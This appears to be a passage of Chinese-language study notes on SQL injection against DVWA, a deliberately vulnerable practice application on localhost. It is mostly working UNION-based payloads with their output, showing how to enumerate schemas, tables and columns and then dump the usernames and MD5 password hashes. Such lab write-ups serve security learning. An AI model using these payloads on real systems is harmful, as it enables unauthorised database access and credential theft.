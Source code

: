 information_schema 5.0 以上有
information_schema 5.0 以下暴力跑表





### 所有資料庫
```
1 UNION SELECT @, gRoUp_cOncaT(0x7c,schema_name,0x7c) fRoM information_schema.schemata #


//顯示
|information_schema|,|dvwa|,|my_db|,|mysql|,|performance_schema|,|sys|
```


### dvwa 所有表
```1 UniOn Select @, gRoUp_cOncaT(0x7c,table_name,0x7C) fRoM information_schema.tables wHeRe table_schema ='dvwa' #

//顯示
|guestbook|,|users|
```


### users 表所有 column_name
```1 UniOn Select @, gRoUp_cOncaT(0x7c,column_name,0x7C) fRoM information_schema.columns wHeRe table_name ='users' #


//顯示
|user_id|,|first_name|,|last_name|,|user|,|password|,|avatar|,|last_login|,|failed_login|,|USER|,|CURRENT_CONNECTIONS|,|TOTAL_CONNECTIONS|
```



### users 表所有帳號  密碼
```1 UniOn Select  @, gRoUp_cOncaT(0x7c,user,0x7C) fRoM users #

//顯示
|admin|,|gordonb|,|1337|,|pablo|,|smithy|



1 UniOn Select  @, gRoUp_cOncaT(0x7c,password,0x7C) fRoM users #

//顯示
|f1c1592588411002af340cbaedd6fc33|,|e99a18c428cb38d5f260853678922e03|,|8d3533d75ae2c3966d7e0d4fcc69216b|,|0d107d09f5bbe40cade3de5c71e9e9b7|,|5f4dcc3b5aa765d61d8327deb882cf99|
```

## high 

### 主頁面
http://localhost/vulnerabilities/sqli/
